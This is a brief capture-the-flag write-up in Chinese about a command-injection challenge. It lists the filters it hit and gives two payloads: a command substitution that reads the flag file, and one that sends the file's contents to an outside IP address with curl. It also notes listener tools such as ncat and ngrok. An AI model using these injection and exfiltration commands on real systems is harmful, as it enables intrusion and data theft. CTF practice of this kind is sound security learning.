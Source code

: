 http://splitline.tw:8301/


問題:
1.分號被擋掉
2. system 只會為傳stdout 的內容, ls /的指令太長 , 皆在host後面只會噴stderr,
stderr 的話system 就不會print出來

解法一:
1. '"$(cat /f*)"'
解法二:
2. 把東西傳出去(沒試成功)
'"$(curl 140.113.213.75:7414 --data $(cat /f*))"'


tool:
create server:
1. python3 -m http.server  9999 
2. ncat -klvp 7414
3. ngrok http 5000